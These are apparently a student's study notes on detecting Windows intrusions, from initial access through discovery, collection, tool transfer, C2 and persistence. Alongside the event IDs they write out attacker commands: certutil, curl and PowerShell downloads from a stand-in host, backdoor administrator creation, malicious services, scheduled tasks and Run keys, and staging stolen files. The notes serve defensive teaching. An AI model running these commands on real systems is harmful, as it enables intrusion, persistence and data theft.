# Windows Threat Detection

## Initial Access

### Initial Access Basics

#### Exposed Services

Open ports, exposed to the open internet,  can be scanned by automated bots.  

Example MITRE Techniques:

[T1133 / External Remote Services (opens in new tab)](https://attack.mitre.org/techniques/T1133/): Threat actors will look for exposed RDP/VNC/SSH with weak passwords to get remote access to the machine
[T1190 / Exploit Public-Facing Application (opens in new tab)](https://attack.mitre.org/techniques/T1190/): Threat actors will look for misconfigured or vulnerable websites and applications

#### User-Driven Methods

 Clicking malicious links  
 Launching phishing attachments  
 use of pirated software  
 Picking up / inserting unknown USB devices

 Example MITRE Techniques: 

[T1566 / Phishing](https://attack.mitre.org/techniques/T1566/): Threat actors employ different techniques, tricking users into launching the malware themselves  
[T1091 / Removable Media](https://attack.mitre.org/techniques/T1091/): Threat actors infect a USB device and hope that users will use the USB on multiple PCs

### Inital Access via RDP

#### Risks of Exposed RDP

#### Detecting RDP Breach


| # | Step of Attack              | Description                                                                 | Detection Opportunity |
|---|----------------------------|-----------------------------------------------------------------------------|------------------------|
| 1 | Network Scan               | Botnet scans our IP and detects an exposed RDB port                            | N/A. Network attacks are out of the room scope |
| 2 | RDP Brute Force                | Botnet starts a brute force of common usernames (Administrator, admin, support, etc.) | 1. Open Security logs and filter for failed logins (Event ID 4625) <br> 2. Filter for logon types 3 and 10 (remote logons) <br> 3. Filter for logins from external IP sources (use "Source IP" field) <br> 4. This indicates a potential RDP brute force |
| 3 | Initial Access via RDP            | After ~100 attempts, the botnet guesses the correct password and enters the system | 1. Continue from previous step <br> 2. Switch filter to Event ID 4624 (successful logins) <br> 3. Check the account used for login <br> 4. Identify which account enabled initial access |
| 4 | Further Malicious Actions  | Two hours after the breach, the threat actor logs in via RDB and reviews the Desktop | 1. Continue from previous step <br> 2. Filter for logon type 10 (interactive RDP login) <br> 3. Copy the "Logon ID" from the event <br> 4. Search Sysmon logs for the same "Logon ID" <br> 5. Review all processes started by the threat actor |via RDP

#### Logging Brute Force

  

### Initial Access via Phishing

#### Current State of Phishing

Phishing attacks have increased at least 41x since the release of ChatGPT in 2022.  
High seccess rate  

#### Binary Attachments

People are weary not to open unfamiliar `.exe` files.  
People are less familiar with less common extensions: `com`; `.scr`. or `.cpl`  
All have potential to carry and distribute malware  

Windows hides known file extensions by defult; allows attackers to miss malicious file extensions: `fake-invoice.pdf.exe`  

#### LNK Attachments

Common method: make scripts look trustworthy by hiding them behind LNK shortcuts.  
Inserting malicious scripts as the "target"  

  

LNK files leave littel execution trace.  
Name and icon of LNK file does not match the command executed from the `Target` field.

  

#### Detecting Malicious Download

executeables are possible.  
archives (.zip/.rar) far more likely  

##### Sysmon Event chain for Double-Extension Attachment  

```text
# 1. Sysmon Event ID 1: Web browser is launched
Image: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
ParentImage: C:\Windows\Explorer.EXE

# 2. Sysmon Event ID 11: A file (usually archive) appears in Downloads
Image: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
TargetFilename: C:\Users\User\Downloads\invoice.zip*

# 3. Sysmon Event ID 11: Optionally, the user unarchives files to some folder
Image: C:\Windows\Explorer.EXE (or C:\Program Files\7-Zip\7zG.exe)
TargetFilename: C:\Users\User\Downloads\invoice.pdf.exe

# 4. Sysmon Event ID 1: The user double-clicks the unarchived file
Image: C:\Users\User\Downloads\invoice.pdf.exe
ParentImage: C:\Windows\Explorer.EXE
```

  

### Initial Access via USB

#### Risks of Removable Media

[Camaro Dragon](https://research.checkpoint.com/2023/beyond-the-horizon-traveling-the-world-on-camaro-dragons-usb-flash-drives/) 

Camaro Dragon’s HopperTick/WispRider toolset is a robust USB‑propagating malware family combining social engineering, DLL side‑loading of malicious payloads via legitimate binaries, AV bypasses, and strong anti‑analysis measures — enabling wide, often collateral, global spread via removable media. Defenses should focus on removable-media controls, detection of suspicious side‑loading/persistence patterns, and preventing execution of unknown executables from USB drives.  

[Raspberry Robin](https://redcanary.com/blog/threat-intelligence/raspberry-robin/)  

The Red Canary analysis of “Raspberry Robin” describes a worm-like malware campaign first observed in 2021 that primarily spreads through infected USB drives, where it disguises itself as a shortcut (.LNK) file mimicking a legitimate folder to trick users into execution; once triggered, it uses cmd.exe to run obfuscated commands and then leverages the legitimate Windows Installer utility (msiexec.exe) to contact attacker-controlled infrastructure—often compromised QNAP devices or TOR-based nodes—and download a malicious DLL payload, which is executed via trusted Windows binaries like fodhelper.exe and rundll32.exe to evade detection and potentially gain elevated privileges. The malware establishes persistence, performs command-and-control communication, and can deliver additional payloads (including malware linked to ransomware operations), making it a versatile initial access and staging mechanism, though its ultimate objectives are not always clear; its reliance on removable media, living-off-the-land techniques, and staged payload delivery allows it to bypass traditional defenses and act as a precursor to more severe compromises.

#### Detecting an Infected USB

A majority of USB exploits are executed by users.  

`.lnk` files.  
`photos.exe` : seemingly normal files with executable extensions  
double extensions  

  

## Discovery

### Overview

Identify internally available assets   

| Discovery Purpose | Description | Common CMD / Powershell Commands |
|------------------|-------------|------------------------|
| Files and Folders | To find out the host purpose, victim's job, or their interests | `type <file>`, `Get-Content <file>`, `dir <folder>`, `Get-ChildItem <folder>` |
| Users and Groups | To find out who uses the host and with which privileges | `whoami`, `net user`, `net localgroup`, `query user`, `Get-LocalUser` |
| System and Apps | To find out vulnerabilities or apps to steal data from | `tasklist /v`, `systeminfo`, `wmic product get name,version`, `Get-Service` |
| Network Settings | To find out if the host belongs to a corporate network | `ipconfig /all`, `netstat -ano`, `netsh advfirewall show allprofiles` |
| Active Antivirus | To find out how risky it is to continue the attack without being blocked | `Get-WmiObject -Namespace "root\SecurityCenter2" -Query "SELECT * FROM AntivirusProduct"` |

After the malicious attachment is run to gain initial access, basic discovery occurs with connection back to the threat actor C2.  

Meterpreter session:  

  

[DFIR Case Study](https://thedfirreport.com/2024/08/26/blacksuit-ransomware/#collection:~:text=The%20threat%20actor%20performed%20several%20discovery%20commands)

### Discovery via Commands

use of existing system commands

### Discovery via GUI

Apps & Programs  
System Settings  
Disk Management  
Event Viewer  
etc.. 

### Detection of Discovery Methods

Starts with finding a discovery command, or sequence of discovery commands, during a short period of time  
Enumerated as process creation events (Event ID 1)  or new rows in PowerShell history file  

Second, enumerate the process tree to identify parent-child relationships  

  

### Collection

#### Identifying Secrets  

MITRE Tactics:  

[Collection](https://attack.mitre.org/tactics/TA0009/)  
[Credential Access](https://attack.mitre.org/tactics/TA0006/)  
[Exfiltration](https://attack.mitre.org/tactics/TA0010/)  

#### Collection Targets 

Collection Targets Depend on Motivation  

- Not Random
- Starts Broad
- narrows to high-value tagets aligned iwht objectives and motivations  
- threat actors adapt dynamically based on what they discover  


| Threat Actor Motivation | Objective | Likely Collection Targets | Why It Matters |
|------------------------|----------|---------------------------|----------------|
| Financial Gain (Cybercrime, Ransomware) | Monetize access via extortion, fraud, or resale | Financial records, customer databases, payment data, credentials, backups, sensitive documents | Data can be sold, used for fraud, or leveraged to pressure victims into paying ransom |
| Espionage (Nation-State, Corporate) | Gather intelligence for strategic advantage | Emails, internal communications, intellectual property, trade secrets, R&D data, executive files | Provides political, military, or economic advantage |
| Data Theft for Resale (Initial Access Brokers) | Package and sell access or data to other attackers | Credential stores, VPN configs, domain admin accounts, system/network maps | Enables follow-on attacks by other actors |
| Privilege Escalation & Persistence | Maintain long-term control of environment | Password hashes, Kerberos tickets, token data, admin accounts, Active Directory database | Higher privileges allow deeper access and stealth persistence |
| Lateral Movement | Expand access across systems | Network shares, host lists, trust relationships, remote access tools, session tokens | Broadens attack surface and increases impact potential |
| Destructive Intent (Hacktivism, Sabotage) | Disrupt or damage operations | Critical infrastructure configs, system dependencies, backups, recovery mechanisms | Allows attackers to maximize disruption and hinder recovery |
| Surveillance / Monitoring | Observe user behavior over time | Email archives, chat logs, screen captures, keystrokes, logs | Enables intelligence gathering or blackmail |
| Credential Harvesting | Expand access within or beyond environment | Browser-stored passwords, LSASS memory, SSH keys, API tokens | Credentials can be reused for escalation or external attacks |
| Compliance / Legal Leverage (Extortion) | Pressure victim using sensitive exposure | HR records, legal documents, contracts, PII, PHI | Threat of public disclosure increases likelihood of payment |
| Botnet / Resource Hijacking | Use system resources for other operations | CPU/GPU availability, cloud credentials, automation scripts | Enables crypto mining, DDoS, or proxy infrastructure |

#### Exfiltrating Data

- manually or automated  
- transferred to cloud storage service ,code repository, or an un-obtrusive domain  

#### Detecting Collection

| Command / Action | Description |
|------------------|-------------|
| `notepad.exe C:\Users\<user>\Desktop\finances-2025.csv` | Threat actors used Notepad to check content of the interesting file |
| CMD: `type debug-logs.txt \| findstr password > C:\Temp\passwords.txt` | Threat actors searched for the "password" keyword in a specific file |
| PowerShell: `Get-ChildItem C:\Users\<user> -Recurse -Filter *.pdf` | Threat actors searched for PDF files in the user's home folder |
| PowerShell: `copy C:\Users\<user>\AppData\Roaming\Signal C:\Temp\` | Threat actors copied Signal chat history to the Temp directory |
| PowerShell: `Compress-Archive C:\Temp\ C:\Temp\stolen_data.zip` | Threat actors archived the stolen data, preparing for exfiltration |
| `7za.exe a -tzip C:\Temp\stolen_data.zip C:\\Temp\\*.*` | Alternatively, threat actors can use existing archiving software like 7-Zip |

#### Collection Examples

Commands detected used for unuusal purposes  

  

  

#### Data Collection by Threat Actors

##### Human Threat Actors

- Common in breaches of large networks
- Typically:
  - Have a specific target
  - Spend significant time exploring the environment
  - Manually search for valuable data to steal

##### Automated Collection (Data Stealers)

- More common in attacks against personal workstations
- Usually no direct human interaction
- Performed by specialized malware designed to:
  - Automate data collection
  - Automate data exfiltration

##### Example: Gremlin Data Stealer

- A single malicious file capable of stealing:
  - User profiles
  - Cryptocurrency wallets
  - Web browser sessions
  - Steam data
  - Discord data
  - Telegram data
  - Screenshots of the victim’s host

  

##### Key Characteristics of Data Stealers

- Rarely rely on CMD or standard system commands
- Use their own embedded code for operations
- Make it difficult to determine:
  - What exact data was accessed
  - What data was exfiltrated

##### Additional Resource

- [Unit42 blog post](https://unit42.paloaltonetworks.com/new-malware-gremlin-stealer-for-sale-on-telegram/)  

### Ingress Tool Transfer

Additional tools threat actors may require in the environmenet to achieve objectives  

Examples:  

| Tool Type | Example | Description / Use Case |
|-----------|----------|------------------------|
| Discovery & Vulnerability Enumeration Script | Seatbelt | Automates system discovery and identifies common misconfigurations or vulnerabilities |
| Credential Dumping Tool | Mimikatz | Extracts saved passwords, hashes, and other authentication material from the OS |
| Remote Access Trojan (RAT) | Remcos RAT | Provides persistent remote control over the compromised system |
| Ransomware | (Generic ransomware binary) | Encrypts system data to extort payment after data exfiltration |

#### Common Transfer Methods  

Splitting malware and tools reduces potential detection by antivirus and other security tools.  

| Ingress Tool Transfer Method | Common CMD / PowerShell Commands |
|------------------------------|----------------------------------|
| Via Certutil | `certutil.exe -urlcache -f https://blackhat.thm/bad.exe good.exe` |
| Via Curl (Windows 10+) | `curl.exe https://blackhat.thm/bad.exe -o good.exe` |
| Via PowerShell IWR | `powershell -c "Invoke-WebRequest -Uri 'https://blackhat.thm/bad.exe' -OutFile 'good.exe'"` |
| Via Graphical Interface | No need to use CMD; copy-paste via RDP or download through a web browser |

#### Detecting Tool Transfer

Tracking network connectsion and/or DNS request from a suspicious process.  
avoiding detection means using legitimate services (GitHub).  
Detecting means correlation processes, connections, sources, destinations, and downloads to arrive at a determinatioin that something is normal or abnormal  

## Command and Control (C2)

[MITRE ATT&CK Command and Control](https://attack.mitre.org/tactics/TA0011/)  

### Attacks without C2

threat actors manually input all commands dirrectly into RDP.  
Limited to active / live connections.



### Simple C2

A process that connects back to threat actor  and waits for commands 24/7  
or  
The capability to download C2 malware and hide it on the target/victim device  

- does not imediately connct back to threat actor
- survives deletion of the original phising or ingress method  


  

## Persistence 

  

### Persistence via RDP

- Weak passwords permit recurring abuse of the same service, until password policy and rollover.
- Threat actor creates a new users ([T1136](https://attack.mitre.org/techniques/T1136/)) and elevates the user to administrator ([T1098](https://attack.mitre.org/techniques/T1098/007/)) privileges  

#### Manipulate users through GUI

Launching `Computer Management` or command line `:> lusrmgr.msg`

#### CMD and PowerShell User Manipulation  

```powershell
# 1. Two methods to create the "mr.backd00r" user
CMD C:\> net user "mr.backd00r" "p@ssw0rd!" /add
PS  C:\> New-LocalUser "mr.backd00r" -Password [...]

# 2. Two methods to add the user to Administrators 
CMD C:\> net localgroup Administrators "mr.backd00r" /add
PS  C:\> Add-LocalGroupMember "Administrators" -Member "mr.backd00r"
```

### Detecting Backdoor Users

Security Event Logs event ID: 4720

- Who created the account
- Is the time and source IP of the creator's login within 
- Identify other suspicious events during the creator's sessions
- New users quickly added to privileged user groups  (Event ID: 4732) 
- Resetting passwords of dormant accounts (event ID: 4724)

### Persistence TAsks and Services

#### Services and Tasks

Here’s your text reformatted into a clean, structured Markdown table:

| Persistence Method                               | Attack Example                                                               | Event ID Logging                                                               |
| ------------------------------------------------ | ---------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| Create a Windows Service (Runs after OS startup) | `sc create "BadService" binpath= "C:\malware.exe" start= auto`               | Launch of sc.exe: Sysmon / 1<br>Service creation: Security / 4697              |
| Create a Scheduled Task (Run after OS startup)   | `schtasks /create /tn "BadTask" /tr "C:\malware.exe" /sc onstart /ru System` | Launch of schtasks.exe: Sysmon / 1<br>Scheduled task creation: Security / 4698 |

#### Detecting Services

Threat actors create own malicious services enabled at startup.

1. Detect the launch of `sc.exe create` command (Sysmon event ID 1)  
2. Detect service creation (Security event ID 4697 or event ID 7045)  
3. Detect suspicious processes with a `services.exe` parent process  



#### Detecting Tasks

Scheduled tasks that run with unusual frequency.  
Easier to create and hide  

Managed by `taskschd.msc` or "Task Scheduler" in the GUI  

1. Detect launch of `schtasks.exe /create` (sysmon event ID 1)  
2. Detect and analyze scheduled task creation (security event ID 4698)  
3. Detect suspicious processes with a `svchost.exe [...] -s Schedule` parent  

  

### Persistence: Run Keys at Startup

Per-user persistence occurs when an event or program runs when the specified user logs in.  


Here’s the reformatted Markdown table:

| Persistence Method                                   | Attack Example                                                                                         | Event ID Logging                       |
| ---------------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------------------------------------- |
| Add malware to Startup Folder (Runs upon user login) | `copy C:\malware.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\malware.exe"`            | New startup item: Sysmon Event ID 11   |
| Add malware to "Run" keys (Runs upon user login)     | `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v BadKey /t REG_SZ /d "C:\malware.exe"` | New registry value: Sysmon Event ID 13 |

#### Detecting Startup  

startup folder is intended for inexperienced suers to configure startup/login triggered programs.  
startup folder is not a common choie for legitiamte programs, and is usually empty.  
threat actors use startup folder for persistence [Lumma Stealer](https://www.trendmicro.com/pl_pl/research/25/a/lumma-stealers-github-based-delivery-via-mdr.html#:~:text=We%20also%20observed%20persistence%20being%20established%20through%20the%20Startup%20folder)

Deteect file creation event (Sysmon Event ID 11) inside the startup folder. These events have "explorer.exe" as parent  

  

#### Detect Run Keys  

Adds "Run"  value in Windows registry and pths the path to the program there:

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
Or for all users: HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

run keys can be viewed manually in Registry Editor (`regedit.exe`)  

Identify registry changes events in logs (sysmon event ID 13) 

  

